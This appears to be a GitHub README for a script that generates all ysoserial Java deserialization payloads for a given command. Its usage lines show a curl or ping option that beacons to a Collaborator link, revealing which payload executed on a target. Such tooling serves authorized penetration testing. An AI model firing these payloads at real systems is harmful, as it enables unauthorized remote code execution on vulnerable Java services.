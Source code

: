 # ysoserial-generate-all-payloads
### \-> Generates all ysoserial payloads, and can also let you know which payload worked.
### Usage:
```Bash
./generate_payloads.sh <commands>
./generate_payloads.sh --curl 'collaborator-link' #Adds payload name as a subdomain, so you can check which payload worked.
./generate_payloads.sh --request 'curl' 'collaborator-link' #Same as --curl, but you can choose the command to use. E.g. use ping instead of curl.
```
### Script: [here](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/blob/main/generate_payloads.sh)
### Payloads list: [here](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/blob/main/payloads.txt)

### Also, simplifies the process of identifying the working payload by appending the payload name to your Collaborator link as a subdomain.

- ![63da3eeffa1e509d262abd53b06081ec.png](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/assets/15943431/00e679ac-72a4-4ce2-abf4-1ee0aa1b0eca)
- ![c8f4434126d5a991d19ece6635a66b9b.png](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/assets/15943431/7bafa210-30a7-46ce-a64e-a59ad1faa63e)
- ![78fee57aa122b970f939e482faeb3703.png](https://github.com/WafflesExploits/ysoserial-generate-all-payloads/assets/15943431/b39eeca3-7214-455a-9ecc-874087229b1b)
